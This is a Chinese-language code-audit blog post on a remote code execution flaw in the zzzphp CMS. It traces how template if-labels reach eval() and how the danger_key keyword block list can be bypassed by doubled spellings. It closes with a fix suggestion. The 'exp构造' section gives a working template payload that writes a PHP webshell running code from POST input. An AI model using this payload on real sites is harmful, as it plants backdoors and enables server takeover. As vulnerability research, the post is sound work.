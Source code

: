 ```yaml
---
title: "zzzphp 远程代码执行审计"
date: 2019-08-21T22:28:44+08:00
lastmod: 2019-08-21T22:28:44+08:00
draft: false
tags: ['code']
categories: ['代码审计']
comment: true
---
```

又看到了cnvd中的一个有趣的洞！
<!--more-->

# zzzphp

> zzzphp是一款php语言开发的免费建站系统，以简单易上手的标签、安全的系统内核、良好的用户体验为特点，是站长建站的最佳选择。

晚上8点，做完作业发现cnvd报了一个[命令执行](https://www.cnvd.org.cn/flaw/show/CNVD-2019-21998)，本着两天不看代码看不懂的精神赶紧再来看下审计。

# 产生原因

zzzphp的模板是通过自写函数来进行解析的，过滤参数不严谨导致可以执行任意php代码。

# 漏洞分析

程序入口`index.php`引入`require 'inc/zzz_client.php';`

E:\code\php\zzzphp\inc\zzz_client.php:56

```php
 require 'zzz_template.php';
 if (conf('webmode')==0) error(conf('closeinfo'));
 $location=getlocation();
```

引入模板解析类并通过`getlocation()`使url和模板关联起来。

91行：当访问`http://127.0.0.1/search/` 时使用search模板

```php
case 'search':
	$tplfile= TPL_DIR . 'search.html'; 
```

157行

```php
$parser = new ParserTemplate();
$zcontent = $parser->parserCommom($zcontent); // 解析模板
```

实例化解析模板类，调用`parserCommom()`方法，跟进

inc/zzz_template.php

```php
public function parserCommom($zcontent)
    {
        $zcontent = $this->parserSiteLabel($zcontent); // 站点标签
        $zcontent = $this->ParseInTemplate($zcontent); // 模板标签
        $zcontent = $this->parserConfigLabel($zcontent); //配置表情
        $zcontent = $this->parserSiteLabel($zcontent); // 站点标签
        $zcontent = $this->parserCompanyLabel($zcontent); // 公司标签
        $zcontent = $this->parserUser($zcontent); //会员信息
        $zcontent = $this->parserlocation($zcontent); // 站点标签
        $zcontent = $this->parserLoopLabel($zcontent); // 循环标签		
        $zcontent = $this->parserContentLoop($zcontent); // 指定内容
        $zcontent = $this->parserbrandloop($zcontent);
        $zcontent = $this->parserGbookList($zcontent);
        $zcontent = $this->parserLabel($zcontent); // 指定内容
        $zcontent = $this->parserPicsLoop($zcontent); // 内容多图
        $zcontent = $this->parserad($zcontent);
        $zcontent = parserPlugLoop($zcontent);
        $zcontent = $this->parserOtherLabel($zcontent);
        $zcontent = $this->parserIfLabel($zcontent); // IF语句
        $zcontent = $this->parserNoLabel($zcontent);
        return $zcontent;
    }
```

可以看到这些是zzzphp模板解析，并且使用了自定义模板语句，跟进`$this->parserIfLabel()`函数

```php
public function parserIfLabel($zcontent)
{
    $pattern = '/\{if:([\s\S]+?)}([\s\S]*?){end\s+if}/';
    if (preg_match_all($pattern, $zcontent, $matches)) {
        $count = count($matches[0]);
        for ($i = 0; $i < $count; $i++) {
            $flag = '';
            $out_html = '';
            $ifstr = $matches[1][$i];
            $ifstr = danger_key($ifstr);
            $ifstr = str_replace('=', '==', $ifstr);
            $ifstr = str_replace('<>', '!=', $ifstr);
            $ifstr = str_replace('or', '||', $ifstr);
            $ifstr = str_replace('and', '&&', $ifstr);
            $ifstr = str_replace('mod', '%', $ifstr);
            //echop( $ifstr);
            @eval('if(' . $ifstr . '){$flag="if";}else{$flag="else";}');
            ... 省略
            return $zcontent;
        }
    }
}
```

看到了eval函数，并且有变量`$ifstr`，如果它可控，那么我们就可以执行任意代码。

看下他是怎么过滤的，`preg_match_all`匹配正则，要满足以下格式

```php
{if:条件}
代码
{end if}
```

然后经过一个`danger_key()`函数，跟进

inc/zzz_main.php

```php
function danger_key( $s , $len=255) {
    $danger=array('php','preg','server','chr','decode','html','md5','post','get','cookie','session','sql','del','encrypt','upload','db','$','system','exec','shell','popen','eval');   
    $s = str_ireplace($danger,"*",$s);
    return $s;
}
```

可以看到使用`str_ireplace()`替换了危险关键字，不过只是替换了一次，可以双写绕过。

到目前为止，整个漏洞的构造链已经很清晰了。

修改模板 -> 构造恶意if语句块 -> 访问 `http://localhost/search/`触发代码执行

# exp构造

- 问题一：上文提到了可以用双写绕过，但是关键字会被替换成一个`*`，我们可以重新用str_replace替换回来

- 问题二：`$`被替换，没办法用双写绕过，我们用`get_defined_vars()`来构造，参考 [PHP利用Apache、Nginx的特性实现免杀Webshell](https://y4er.com/post/apache-nginx-webshell/)

放一个我的构造的exp

后台 - 模板管理 - 修改search.html，添加一行

```php
{if:1)file_put_contents(str_replace('*','','Y4er.pphphp'),str_replace('*','','<?pphphp evevalal(ggetet_defined_vars()[_PPOSTOST][1]);'));//}{end if}
```

然后访问`http://localhost/search/` 然后会在 `http://localhost/search/Y4er.php`

# 修复建议

使用`preg_replace`过滤关键字而不是`str_ireplace()`，严格控制用户输入。

# 写在文后

需要登录后台，算是比较鸡肋，不过cnvd还爆了这个版本的注入，有兴趣的师傅可以看一下。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**